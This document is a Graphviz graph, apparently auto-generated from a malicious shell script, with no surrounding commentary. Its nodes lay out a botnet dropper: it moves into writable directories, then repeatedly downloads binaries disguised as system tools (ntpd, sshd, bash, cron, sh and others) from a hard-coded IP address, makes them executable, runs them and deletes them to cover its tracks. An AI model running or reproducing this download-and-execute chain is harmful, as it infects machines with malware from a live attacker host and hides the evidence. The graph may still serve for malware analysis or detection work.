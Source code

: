 digraph {
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 10 [label="||,"];
10 [label="wget http://93.190.143.129/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 28 [label="||,"];
28 [label="wget http://93.190.143.129/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 46 [label="||,"];
46 [label="wget http://93.190.143.129/openssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x openssh "];
48 -> 50 [label=";,"];
50 [label="./openssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf openssh "];
52 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 64 [label="||,"];
64 [label="wget http://93.190.143.129/bash "];
64 -> 66 [label=";,"];
66 [label="chmod +x bash "];
66 -> 68 [label=";,"];
68 [label="./bash "];
68 -> 70 [label=";,"];
70 [label="rm -rf bash "];
70 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 82 [label="||,"];
82 [label="wget http://93.190.143.129/tftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tftp "];
84 -> 86 [label=";,"];
86 [label="./tftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tftp "];
88 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 100 [label="||,"];
100 [label="wget http://93.190.143.129/wget "];
100 -> 102 [label=";,"];
102 [label="chmod +x wget "];
102 -> 104 [label=";,"];
104 [label="./wget "];
104 -> 106 [label=";,"];
106 [label="rm -rf wget "];
106 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 118 [label="||,"];
118 [label="wget http://93.190.143.129/cron "];
118 -> 120 [label=";,"];
120 [label="chmod +x cron "];
120 -> 122 [label=";,"];
122 [label="./cron "];
122 -> 124 [label=";,"];
124 [label="rm -rf cron "];
124 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 136 [label="||,"];
136 [label="wget http://93.190.143.129/ftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftp "];
138 -> 140 [label=";,"];
140 [label="./ftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftp "];
142 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 154 [label="||,"];
154 [label="wget http://93.190.143.129/pftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pftp "];
156 -> 158 [label=";,"];
158 [label="./pftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pftp "];
160 -> 162 [label=";,"];
162 [label="cd /tmp "];
162 -> 162
164 [label="cd /var/run "];
164 -> 166 [label="||,"];
166 [label="cd /mnt "];
166 -> 168 [label="||,"];
168 [label="cd /root "];
168 -> 170 [label="||,"];
170 [label="cd / "];
170 -> 172 [label="||,"];
172 [label="wget http://93.190.143.129/sh "];
172 -> 174 [label=";,"];
174 [label="chmod +x sh "];
174 -> 176 [label=";,"];
176 [label="./sh "];
176 -> 177 [label=";,"];
}

